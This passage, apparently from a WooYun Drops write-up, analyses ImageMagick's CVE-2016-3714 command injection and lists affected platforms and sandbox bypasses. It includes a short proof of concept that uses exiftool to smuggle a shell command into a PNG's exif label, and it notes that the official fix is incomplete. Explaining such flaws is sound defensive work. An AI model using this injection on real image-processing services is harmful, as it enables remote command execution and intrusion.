 [![](http://static.wooyun.org//drops/20160505/2016050510205522153.png)](http://drops.wooyun.org/wp-content/uploads/2016/05/QQ20160504-5@2x.png)

另外，经过分析，研究人员发现除了.mvg格式的图片以外，普通png格式的图片也能触发命令执行漏洞。我们看到前面委托中对%l，也就是exif label的处理：

```
<delegate decode="miff" encode="show" spawn="True" command="&quot;/usr/bin/display&quot; -delay 0 -window-group %[group] -title &quot;%l &quot; &quot;ephemeral:%i&quot;"/>

```

它将%l拼接进入了/usr/bin/display命令中，所以我只需将正常的png图片，带上一个『恶意』的exif信息。在调用ImageMagick将其处理成.show文件的时候，即可触发命令注入漏洞：

```
exiftool -label="\"|/usr/bin/id; \"" test.png
convert test.png o.show

```

[![](http://static.wooyun.org//drops/20160505/2016050510205512761.jpg)](http://drops.wooyun.org/wp-content/uploads/2016/05/14624399792594.jpg)

但这个方法鸡肋之处在于，因为delegate.xml中配置的encode="show"（或"win"），所以只有输出为.show或.win格式的情况下才会调用这个委托，而普通的文件处理是不会触发这个命令的。

0x03 影响分析
=========

* * *

ImageMagick是一个使用非常广的组件，大量厂商都在处理图片的时候调用这个程序进行处理，而且很多开源应用也在核心代码中包含了ImageMagick选项。

Wordpress是著名的个人博客/CMS厂商，其核心源码中使用了PHP扩展ImageMagick。受到这个漏洞的影响，在攻击者拥有一定权限的情况下，可以在Wordpress中触发任意命令执行漏洞：[WooYun: Wordpress某核心功能命令执行漏洞（一定权限）](http://www.wooyun.org/bugs/wooyun-2016-0205047)

同样的，Discuz、Drupal等常用CMS中也调用了ImageMagick扩展或ImageMagick库，CVE-2016-3714也可能会影响到他们。

但根据我对Discuz的分析，其调用ImageMagick处理图片之前，会先使用php的getimagesize进行图片格式、大小的验证，所以本文中所涉及的POC无法在Disucz中直接使用，但不排除有其他方法绕过discuz对该问题的限制。

除了开源软件中的漏洞以外，国内外各大厂商或多或少都收到了该问题的影响，影响最大的应该属人人，人人某处上传位置调用了ImageMagick进行图片的处理，结果造成了命令执行，导致内网被白帽子攻破：[WooYun: 人人网某漏洞导致直接Getshell影响主干网络直入内网](http://www.wooyun.org/bugs/wooyun-2016-0205171)

另外，百度、优酷、腾讯、七牛等诸多厂商都收到该漏洞影响：[WooYun: QQ邮箱命某处令执行](http://www.wooyun.org/bugs/wooyun-2016-0205381)、[WooYun: 腾讯微云远程命令执行](http://www.wooyun.org/bugs/wooyun-2016-0205375)、[WooYun: 七牛云存储远程命令执行漏洞影响图片处理服务器](http://www.wooyun.org/bugs/wooyun-2016-0205290)、[WooYun: 百度某站远程命令执行漏洞](http://www.wooyun.org/bugs/wooyun-2016-0205259)、[WooYun: 一张图片引发的血案百度某处命令执行](http://www.wooyun.org/bugs/wooyun-2016-0205206)、[WooYun: 优酷主站存在远程命令执行漏洞](http://www.wooyun.org/bugs/wooyun-2016-0205389)

还有个比较有意思的地方，因为新浪sae的php包含ImageMagick扩展，所以乌云上有白帽子利用这个漏洞，成功绕过了sae的沙盒[WooYun: SAE 沙盒绕过（ImageMagick CVE20163714 应用实例）](http://www.wooyun.org/bugs/wooyun-2016-0205051)

0x04 漏洞修复
=========

* * *

关于这个漏洞影响ImageMagick 6.9.3-9以前是所有版本，包括ubuntu源中安装的ImageMagick。而官方在6.9.3-9版本中对漏洞进行了不完全的修复。所以，我们不能仅通过更新ImageMagick的版本来杜绝这个漏洞。

